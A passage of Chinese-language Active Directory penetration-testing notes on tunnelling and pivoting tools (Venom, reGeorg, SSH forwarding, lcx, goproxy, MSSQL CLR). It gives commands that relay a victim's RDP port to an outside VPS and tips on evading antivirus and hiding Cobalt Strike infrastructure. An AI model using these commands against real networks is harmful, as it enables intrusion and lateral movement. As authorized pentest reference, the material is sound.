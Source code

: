    ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
这时候查看我们的admin端

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_3.png)

可以看到还有其他的功能，`setdes` 设定标识，`getdes` 获取标识 ，`goto` 选择一个节点进行操作，`listen` 开启一个监听（但是咋关掉我还没发现...）， `connect` 这个在多级代理的情况下挺好的，一条路打通了。还有节点之间都可以设置密码，这个比较重要
socks这个也好用，挂代理后windows下proxifier，linux下proxychains挂上就行，但是默认监听公网的...还没找到如何监听本地

#### **reGeorg**

通过http/https进行代理访问内网，具体的为上传一个服务器解析的tunnel，通过运行 `python reGeorgSocksProxy.py -p 1080 -u http://xx.xx.xx.xx/tunnel.jsp`

#### SSH

> SSH可以做转发，之前也整理过，不过没有发到博客里面。主要分为本地转发，远程转发，动态转发

本地转发：
`ssh -CfNg -L 本机端口1:本机地址:本机端口2 账号@IP地址`
将本机端口2转发到本机端口1
远程转发：
`ssh -CfNg -R 本地端口:目标地址:目标端口 账号@IP地址`
将内网服务器的地址转发到外网端口
动态转发：
`ssh -qTfnN -D 本地端口 账号@ip地址`
将任意端口转发至本地端口，常见的就是挂代理后用代理工具访问。例如我将cobaltstrike开启后限制外网IP访问，只能通过ssh动态转发打通隧道后访问，防止被爬取指纹，暴露自己。

#### **EarthWorm**

资料多，不粘贴复制了

#### goproxy

> Goproxy也是一款功能齐全的工具，支持多种协议穿透，它的功能可能超过日常转发所需，但是不报毒嘛...

#### lcx

| 方式 |                             命令                             |
| :--: | :----------------------------------------------------------: |
| 反向 | `外部VPS：lcx.exe -listen 1111 2222`<br>`受害者：lcx.exe -slave VPSip 1111 127.0.0.1 3389`<br />访问本地2222就为受害者3389 |
| 正向 | `lcx.exe -tran 1111 2.2.2.2 8080`<br />访问本地1111端口就是2.2.2.2的8080端口 |

#### Mssql

> clr相关[项目地址](https://github.com/blackarrowsec/mssqlproxy)

想起看 Mssql 命令执行的方法时，里面就有CLR，首先为了表示尊敬，贴上[参考文章1](https://xz.aliyun.com/t/7534#toc-10)，[参考文章2](https://xz.aliyun.com/t/6682)

##### 什么是clr

CLR(common language runtime)即公共语言运行库，从SQL Server 2005(9.x) 开始，集成了CLR组件，意味着可以使用任何 .NET Framework语言来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数

流程往往为 制作恶意CLR => 导入程序集 => 利用执行，这里偷个懒，先mark一下。恰巧20200716的时候已经有一个小哥做了[分析](https://xz.aliyun.com/t/7993)，后面我去看看！

### 代理工具

windows下我用proxifier

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/proxifier.png)
   ```